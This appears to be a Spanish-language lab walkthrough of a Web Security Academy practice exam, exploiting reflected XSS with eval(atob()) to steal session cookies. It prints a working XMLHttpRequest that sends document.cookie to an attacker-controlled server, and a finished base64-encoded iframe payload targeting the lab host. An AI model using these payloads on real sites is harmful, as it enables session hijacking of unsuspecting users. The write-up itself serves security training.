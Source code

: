 ```javascript
eval(atob("<ciphertext>"))
```

Con 'eval' provocaremos que el engine ejecute las funciones siguientes que se encuentren dentro del paréntesis. Con 'atob' decodificamos un string encodeado en base64. Así, si eval no es un término que se bloque en el navegador y si el servidor no lleva a cabo una validación del código nuestro payload codificado en base 64 se ejecutará en el navegador de la víctima. Para encodear en linux un texto en base64 empleamos:

```bash
echo "<text>" | base64 | tr -d '\n'
```

Así, encodeamos el término "alert(document.cookie)" en base64 y se lo pasamos como argumento a la función compuesta de 'eval' y 'atob' obteniendo nuestras cookies en el navegador. Ahora sólo queda encontrar la forma de hacer llegar la respuesta envenenada a una víctima.

Para ello vamos a emplear la funcionalidad del "exploit server" del propio examen de práctica, el cual simula un servidor que hostea una página web que podemos modificar a conveniencia para almacenar código javascrip, html, etc y que entre otras cosas posee una funcionalidad, "Deliver exploit to victim" que simula una víctima que ejecuta cualquier enlace que reciba.

De esta forma, construimos el siguiente código javascript:

```javascript
var xmlhttp = new XMLHttpRequest();xmlhttp.open("GET",`http://127.0.0.1:8000/?cookie=${document.cookie}`,false);xmlhttp.send(null);
```

Esto lo que hace es llevar a cabo una request a una dirección arbitraria con su propia cookie como parámetro en la request. Así, si hiciera una request a un servidor bajo nuestro control, podríamos revisarla mediante el log y obtener el valor del parámetro cookie que podríamos utilizar para robar la sesión. En este caso, vamos a emplear la dirección del servidor del exploit aunque se podría hacer con cualquier otro tipo de servidor.

Así, cambiamos la dirección del servidor del envío de la request y lo encodeamos en base64 como hemos visto antes y se lo pasamos a la barra de búsqueda de la aplicación web como argumento de la función compuesta de 'eval' y 'atob' y le damos a buscar.

Esto tiene dos propósitos:

- Comporobar que el payload funciona antes de utilizarlo comprobando que en log del servidor de exploit del examen aparece una entrada con nuestra cookie:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220613155602.png' | relative_url }}" text-align="center"/>
</div>

- Obtener una URL correctamente encodeada en la barra de navegación que utilizaremos en el servidor del exploit para construir un enlace que provoque que la víctima al ejecutarlo realice una request con el payload malicioso al servidor de la aplicación vulnerable y carge la respuesta maliciosa en una página haciendo así que el navegador de la víctima ejecute nuestro código javascript.

Esto lo conseguimos mediante la etiqueta html "iframe":

```html
<iframe src="https://ac061f641f7fd41cc13e69b7005b00cd.web-security-academy.net/?SearchTerm=%22%2C%22test%22%3Aeval%28atob%28%22dmFyIHhtbGh0dHAgPSBuZXcgWE1MSHR0cFJlcXVlc3QoKTt4bWxodHRwLm9wZW4oIkdFVCIsYGh0dHBzOi8vZXhwbG9pdC1hYzRkMWY1NzFmMjlkNDJiYzFlODY5MDMwMWVkMDBhNy53ZWItc2VjdXJpdHktYWNhZGVteS5uZXQvP2Nvb2tpZT0ke2RvY3VtZW50LmNvb2tpZX1gLGZhbHNlKTt4bWxodHRwLnNlbmQobnVsbCk7Cg%3D%3D%22%29%29%7D%2F%2F"></iframe>
```
